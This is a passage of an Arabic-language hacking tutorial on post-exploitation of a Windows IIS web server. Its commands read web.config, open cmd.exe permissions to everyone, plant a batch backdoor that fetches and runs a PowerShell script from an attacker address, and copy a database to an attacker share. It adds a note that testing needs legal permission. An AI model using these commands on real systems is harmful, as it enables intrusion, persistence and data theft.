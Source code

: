 #### **في ويندوز (سيرفر ويب):**
1. **تأكد إنك داخل:**
   ```cmd
   whoami
   ```

2. **استكشف الملفات:**
   ```cmd
   dir C:\inetpub\wwwroot
   ```
   - لو لقيت `web.config`:
     ```cmd
     type C:\inetpub\wwwroot\web.config
     ```

3. **ارفع صلاحيات:**
   ```cmd
   echo I cacls "C:\Windows\System32\cmd.exe" /grant everyone:F > C:\inetpub\wwwroot\test.bat
   ```
   - نفذ الملف لو تقدر.

4. **زرع Backdoor:**
   ```cmd
   echo powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://your-ip/shell.ps1')" > C:\inetpub\wwwroot\run.bat
   ```

5. **استخرج بيانات:**
   ```cmd
   copy C:\inetpub\wwwroot\database.mdf \\your-ip\share\
   ```

**ملاحظة:** كل الأوامر دي لازم تكون في بيئة اختبار بإذن قانوني! ⚖️

---

### **الخلاصة النهائية 😊**
Post-Exploitation هو اللي بتعمله بعد ما تدخل موقع ويب أو سيرفر: بتستكشف، ترفع صلاحيات، تزرع أدوات، وتاخد بيانات. استخدمنا أوامر زي `find` و`cat` وكتبنا أكواد PHP عشان نتحكم ونكتشف.

**خلاصة للطفل:** زي لما تدخل بيت اللعب، تفتش على الكنز 🔍، تاخد مفتاح الملك 👑، تترك باب صغير عشان ترجع 🚪، وتملي شنطتك بالحلويات 🍭!